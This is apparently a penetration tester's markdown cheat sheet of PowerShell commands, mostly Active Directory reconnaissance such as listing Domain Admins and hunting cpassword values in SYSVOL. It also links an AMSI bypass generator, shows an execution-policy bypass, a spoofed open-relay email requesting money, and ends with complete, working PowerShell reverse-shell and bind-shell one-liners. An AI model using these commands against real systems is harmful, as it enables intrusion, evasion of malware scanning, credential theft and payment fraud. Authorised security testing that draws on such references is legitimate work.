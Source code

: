 ```yaml
---
title : "powershell"
# pre : '<i class="fas fa-code"></i> '
description : "Windows Powershell handy commands."
date : 2020-04-16T13:14:28+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Powershell

{{%attachments title="PowerShell and ISE executable" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Antimalware Scan Interface (AMSI) bypass generator

<https://amsi.fail>

### Active Directory PowerShell Module

This way the [Active Directory PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps) module can be used portable without administrator privileges.

```plain
mkdir C:\temp; iwr https://github.com/crypt0rr/filehosting/raw/master/Microsoft.ActiveDirectory.Management.dll -OutFile C:\temp\1234hoedjevanpapier.dll; Import-Module C:\temp\1234hoedjevanpapier.dll
```

{{%attachments title="PowerShell module" fa_icon_class="far fa-file-code" pattern=".*(dll)"/%}}

PowerShell: `Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose`

### Adjust execution policy

```plain
Set-ExecutionPolicy -scope process -execution bypass
```

### Check 'ms-DS-MachineAccountQuota'

```plain
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### List users with 'Store passwords using reversible encryption' enabled

```plain
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Finding cpassword

```powershell
findstr /s /n /i /p cpassword $env:logonserver\sysvol\*
```

### Get members of specific group

```plain
Get-ADGroupMember “Domain Admins”
```

```plain
Get-ADGroupMember “Domain Admins” | select SamAccountName
```

### Get details

```plain
$env:logonserver
```

### Check which users home directories you have access to

```plain
gci C:\users\*\*
```

### Enable access to C-drive in Explorer

```plain
subst z: c:\
```

### Check how many computerobjects can be added by a user

```plain
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### Overview domain admins

Where 'Password Never Expires' is set.

```plain
Get-ADGroupMembers 'Domain Admins' | Foreach-Object {
    Get-ADUser -Filter * -Properties | Select-Object Name,DisplayName,sAMAccountName,PasswordLastSet,PasswordNeverExpires
} | Sort-Object Name, PasswordLastSet, PasswordNeverExpires | Format-Table -AutoSize
```

Where 'Password Never Expires' is NOT set.

```plain
Get-NetGroupMember 'Domain Admins' | Foreach-Object {
    Get-NetUser -Filter * | Select-Object Name,DisplayName,sAMAccountName,PwdLastSet,AccountExpires
} | Sort-Object Select-Object Name,PwdLastSet | Format-Table -AutoSize
```

### Check secureboot enabled

```powershell
Confirm-SecureBootUEFI
```

### List users with PasswordNeverExpires enabled

```powershell
Import-Module ActiveDirectory
Get-ADUser -filter * -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$_.enabled -eq "true" }
```

### List Domain Admins where 'Account is sensitive an cannot be delegated' is not set

```powershell
Import-Module ActiveDirectory
Get-ADGroupMember "Domain Admins" | Get-ADUser -Properties AccountNotDelegated | Where-Object {-not $_.AccountNotDelegated} | select AccountNotDelegated,Name,SamAccountName
```

### Change user agent

```powershell
iwr -UserAgent 'Non existing user agent in use'
```

### Enable repository use

For PowerShell 4 and higher. For 5.1 and higher you can try `Register-PSRepository -default` first otherwise use code below.

```plain
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Install-PackageProvider -Name NuGet -RequiredVersion 2.8.5.208 -Force

Register-PSRepository -Name PSGallery -SourceLocation https://www.powershellgallery.com/api/v2/ -PublishLocation https://www.powershellgallery.com/api/v2/package/ -ScriptSourceLocation https://www.powershellgallery.com/api/v2/items/psscript/ -ScriptPublishLocation https://www.powershellgallery.com/api/v2/package/ -InstallationPolicy Trusted -PackageManagementProvider NuGet

Install-Module $ModuleName -scope CurrentUser
```

### Copy remote file to local (WinRM)

```plain
$ses = New-PSSession -ComputerName DC01 -Credentials $(Get-Credential)
Copy-Item -FromSession $ses C:\Users\adm-johndo\DC01\secrets.txt Z:\localdisk\secrets.txt
```

### Open Relay

```plain
Send-MailMessage -From 'Not John Do <finance@offsec.nl>' -To 'supplier@offsec.nl' -Subject 'Please send money' -SmtpServer 'openrelay.offsec.nl'
```

### Download a file from a remote resource

When ran from `cmd.exe` add `powershell -c "<command>"`

```plain
(new-object System.Net.WebClient).DownloadFile('https://www.7-zip.org/a/7z2201-x64.exe','C:\Users\crypt0rr\Desktop\7z2201-x64.exe')
```

## Shells (reverse/bind)

### Reverse shell

```plain
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<TARGET-IP-HERE>',<TARGET-PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell

* `0.0.0.0` - will bind to every IP-address available on the local system

```plain
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<TARGET-PORT-HERE>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
